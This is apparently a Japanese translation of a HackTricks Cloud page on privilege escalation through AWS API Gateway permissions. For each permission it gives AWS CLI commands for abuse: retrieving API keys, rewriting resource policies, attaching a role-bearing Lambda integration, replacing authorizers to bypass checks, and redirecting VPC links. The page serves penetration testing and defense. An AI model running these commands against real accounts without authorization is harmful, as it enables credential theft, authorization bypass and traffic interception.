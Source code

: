 # AWS - Apigateway Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

## Apigateway

詳細については、以下を確認してください：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

この権限を使用すると、設定されたAPIのAPIキーを生成できます（リージョンごと）。
```bash
aws --region <region> apigateway create-api-key
```
**潜在的な影響:** この技術では権限昇格はできませんが、機密情報にアクセスできる可能性があります。

### `apigateway:GET`

この権限を使用すると、設定されたAPIの生成されたAPIキーを取得できます（リージョンごと）。
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**潜在的な影響:** この技術では権限昇格はできませんが、機密情報にアクセスできる可能性があります。

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

これらの権限を持つことで、APIのリソースポリシーを変更し、自分自身が呼び出すためのアクセスを得て、APIゲートウェイが持つ可能性のあるアクセスを悪用することができます（脆弱なラムダを呼び出すなど）。 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**潜在的な影響:** 通常、この技術で直接権限昇格はできませんが、機密情報にアクセスできる可能性があります。

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
テストが必要
{% endhint %}

`apigateway:PutIntegration`、`apigateway:CreateDeployment`、および `iam:PassRole` の権限を持つ攻撃者は、**IAMロールが付与されたLambda関数を使用して既存のAPI Gateway REST APIに新しい統合を追加することができます**。攻撃者はその後、**Lambda関数をトリガーして任意のコードを実行し、IAMロールに関連付けられたリソースにアクセスできる可能性があります**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: Lambda関数のIAMロールに関連付けられたリソースへのアクセス。

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
テストが必要
{% endhint %}

`apigateway:UpdateAuthorizer` と `apigateway:CreateDeployment` の権限を持つ攻撃者は、**既存のAPI Gatewayオーソライザーを変更**して、セキュリティチェックを回避したり、APIリクエストが行われる際に任意のコードを実行したりすることができます。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的な影響**: セキュリティチェックのバイパス、APIリソースへの不正アクセス。

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
テストが必要
{% endhint %}

`apigateway:UpdateVpcLink` の権限を持つ攻撃者は、**既存のVPCリンクを異なるネットワークロードバランサーを指すように変更でき、プライベートAPIトラフィックを不正または悪意のあるリソースにリダイレクトする可能性があります**。
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**潜在的影響**: プライベートAPIリソースへの不正アクセス、APIトラフィックの傍受または中断。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
